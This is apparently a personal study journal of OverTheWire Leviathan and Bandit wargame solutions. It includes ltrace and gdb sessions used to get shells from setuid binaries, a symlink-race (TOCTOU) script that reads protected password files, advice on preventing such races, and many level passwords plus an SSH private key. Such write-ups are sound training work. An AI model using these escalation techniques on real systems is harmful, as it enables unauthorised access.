    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-16_seinfeld.jpeg]]

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

[[https://chatgpt.com/share/68ed9138-3f28-8006-ac1e-835908865878][ChatGPT]]

***** More robust TOCTOU script

#+begin_example
#!/bin/bash
# deterministic TOCTOU flipper for CTF practice only

GOOD="/home/leviathan2/.profile"   # a file RUID can read (replace with real file)
SECRET="/etc/leviathan_pass/leviathan3" # the secret you want printed
LINK="/tmp/chaves-L"
BINARY="/home/leviathan2/printfile"     # the setuid binary that does: check ACCESS then exec cat LINK

# make sure the link starts pointing to the readable file
ln -sf "$GOOD" "$LINK"

# start the target program in the background and capture its PID
"$BINARY" "$LINK" &
TARGET_PID=$!

# while the target is still alive, keep flipping the symlink
while kill -0 "$TARGET_PID" 2>/dev/null; do
  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell
telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
